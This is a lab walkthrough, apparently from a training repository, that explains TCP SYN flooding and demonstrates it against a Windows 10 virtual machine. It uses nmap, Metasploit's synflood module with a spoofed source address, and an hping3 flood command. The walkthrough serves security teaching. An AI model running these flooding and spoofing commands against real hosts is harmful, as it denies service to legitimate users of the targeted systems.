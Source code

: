 # SYN Flooding
A SYN flood is a form of denial-of-service attack in which an attacker sends a succession of SYN requests to a target machine in an attempt to exhaust its resources and make it unresponsive to legitimate incoming traffic.



A TCP session establishes a connection using a three-way handshake mechanism. The source sends a SYN packet to the destination. The destination, on receiving the SYN packet, responds by sending a SYN/ACK packet back to the source. This SYN/ACK packet confirms the arrival of the first SYN packet to the source. In conclusion, the source sends an ACK packet for the ACK/SYN packet sent by the destination. In a SYN attack, the attacker exploits the three-way handshake method. First, the attacker sends a fake TCP SYN request to the target server, and when the server sends a SYN/ACK in response to the client (attacker) request, the client never sends an ACK response. This leaves the server waiting to complete the connection.



***

### Objectives
* Spoof IP address of the attacker machine
* Perform SYN Flooding on the Target machine

### Requisites
* Kali Linux virtual machine
* Windows 10 virtual machine (w/ Firewall off)
* Windows Server 2012 or 2016 virtual machine

## Test for Open Port
Log into the Kali Linux and open a new terminal window.

We are going to perform SYN flooding on Windows 10 through some **open port**. To check what port is open or not,  we will use Nmap to scan all open ports.

`nmap -p- <Windows 10 IP address>`

```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
```

In this lab, we will use an auxiliary module from **Metasploit** named **synflood** to perform DoS attack on the target using port 445.

## Perform DoS attack
Type **msfconsole** to launch Metasploit Framework.

`msfconsole`

Type the command to load the module:

`use auxiliary/dos/tcp/synflood`

To display all the options of the module, type:

`options`

```
Name       Current Setting  Required  Description
----       ---------------  --------  -----------
INTERFACE                   no        The name of the interface
NUM                         no        Number of SYNs to send (else unlimited)
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port
SHOST                       no        The spoofable source address (else randomizes)
SNAPLEN    65535            yes       The number of bytes to capture
SPORT                       no        The source port (else randomizes)
TIMEOUT    500              yes       The number of seconds to wait for new data
```

We will change the RHOST, RPORT and SHOST parameters:

`set RHOST [IP address of Windows 10]`<br>
`set RPORT 445`<br>
`set SHOST [IP address of Windows Server]`

By setting the **SHOST** option to the IP address of Windows Server, you are spoofing the IP address of Kali Linux machine.

Once the auxiliary module is configured, start the DoS attack on Windows 10 by typing:

`run`



This begins the SYN flooding on the Windows 10.

## Examine the DoS Attack
Switch to the Windows 10 machine and launch the [**Wireshark**](https://www.wireshark.org/), select the corret interface and click start.

Wireshark displays the traffic comming from the machine as shown below:



Here, you can observe that the source IP address is from Windows Server. This implies that the IP Address of Kali Linux has been spoofed.

Next, open the **Task Manager** on Windows 10 and click **performance** tab.

You will observe that the CPU and Ethernet usage has increased drastically after the attack, which implies that the DoS attack is in progress. If the attack is continued for some time, the machine's resources would be completely exhausted, and it will stop responding.



To stop the DoS attack, back to Metasploit on Kali and press **Ctrl+C** to terminate attack.

# SYN Flooding using hping3
hping3 is a command-line oriented TCP/IP packet assembler/analyzer.



## Perform SYN flooding using hping3

`hping3 -S [Windows 10 IP address] -a [Kali IP address] -p 22 --flood`



This initiates the SYN flooding on Windows 10.

Hping3 floods the victim machine by sending bulk **SYN bulks** and **overloading** victim resources.

Switch to the Windows 10 and launch the [Wireshark](https://www.wireshark.org/), select the correct interface and start capturing.

Analyze the traffic captured, you will notice the huge number of **SYN packets**, which can cause the target machine to crash.

